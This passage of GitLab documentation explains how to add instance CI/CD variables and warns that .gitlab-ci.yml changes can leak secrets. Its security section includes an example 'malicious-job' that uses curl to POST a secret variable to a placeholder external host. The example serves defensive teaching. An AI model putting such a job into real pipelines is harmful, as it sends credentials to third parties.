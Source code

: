 - You must have administrator access to the instance.

To add an instance variable:

1. On the left sidebar, at the bottom, select **Admin**.
1. Select **Settings > CI/CD**.
1. Expand **Variables**.
1. Select **Add variable** and fill in the details:
   - **Key**: Must be one line, with no spaces, using only letters, numbers, or `_`.
   - **Value**: The value is limited to 10,000 characters, but also bounded by any limits in the
     runner's operating system.
   - **Type**: `Variable` (default) or [`File`](#use-file-type-cicd-variables).
   - **Protect variable** Optional. If selected, the variable is only available in pipelines
     that run on [protected branches](../../user/project/repository/branches/protected.md)
     or [protected tags](../../user/project/protected_tags.md).
   - **Visibility**: Select **Visible** (default), [**Masked**](#mask-a-cicd-variable),
     or [**Masked and hidden**](#hide-a-cicd-variable) (only available for new variables).

## CI/CD variable security

Code pushed to the `.gitlab-ci.yml` file could compromise your variables. Variables could
be accidentally exposed in a job log, or maliciously sent to a third party server.

Review all merge requests that introduce changes to the `.gitlab-ci.yml` file before you:

- [Run a pipeline in the parent project for a merge request submitted from a forked project](../pipelines/merge_request_pipelines.md#run-pipelines-in-the-parent-project).
- Merge the changes.

Review the `.gitlab-ci.yml` file of imported projects before you add files or run pipelines against them.

The following example shows malicious code in a `.gitlab-ci.yml` file:

```yaml
accidental-leak-job:
  script:                                         # Password exposed accidentally
    - echo "This script logs into the DB with $USER $PASSWORD"
    - db-login $USER $PASSWORD

malicious-job:
  script:                                         # Secret exposed maliciously
    - curl --request POST --data "secret_variable=$SECRET_VARIABLE" "https://maliciouswebsite.abcd/"
```

To help reduce the risk of accidentally leaking secrets through scripts like in `accidental-leak-job`,
all variables containing sensitive information should always be [masked in job logs](#mask-a-cicd-variable).
You can also [limit a variable to protected branches and tags only](#protect-a-cicd-variable).

Alternatively, use one of the native GitLab integrations to connect with third party
secrets manager providers to store and retrieve secrets:

- [HashiCorp Vault](../secrets/_index.md)
- [Azure Key Vault](../secrets/azure_key_vault.md)
- [Google Secret Manager](../secrets/gcp_secret_manager.md)
